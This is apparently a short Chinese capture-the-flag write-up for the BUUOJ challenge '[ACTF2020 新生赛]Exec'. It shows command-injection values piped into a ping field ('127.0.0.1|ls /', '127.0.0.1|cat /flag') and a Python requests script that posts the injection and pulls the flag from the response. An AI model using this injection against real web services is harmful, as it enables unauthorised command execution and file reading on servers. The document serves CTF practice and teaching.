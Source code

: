 # 分析

来自[[ACTF2020 新生赛]Exec](https://buuoj.cn/challenges#[ACTF2020%20%E6%96%B0%E7%94%9F%E8%B5%9B]Exec)，远程命令执行

是一个ping功能，试试有没有命令执行，payload=`1270.0.0.1|ls /`

![image-20240625195616946](image/image-20240625195616946.png)

payload=`127.0.0.1|cat /flag`

![image-20240625195727333](image/image-20240625195727333.png)

# exp

```python
import requests
import re

url = "http://af0baab7-eaf0-4993-9df1-785e785d2f35.node5.buuoj.cn:81/"
data={
  'target':'127.0.0.1|cat /flag'
}
res = requests.post(url, data=data)

if res.status_code == 200:
    res_text = res.text
    # 打印响应内容（可选）
    #print("Response:", res_text)
    # 使用正则表达式查找 flag
    flag_pattern = "flag\{.*?\}"
    flag_match = re.search(flag_pattern, res_text)
    if flag_match:
        flag = flag_match.group(0)
        print(f"flag is -->> {flag}")
    else:
        print("flag not found.")
else:
    print("Request failed.")
```

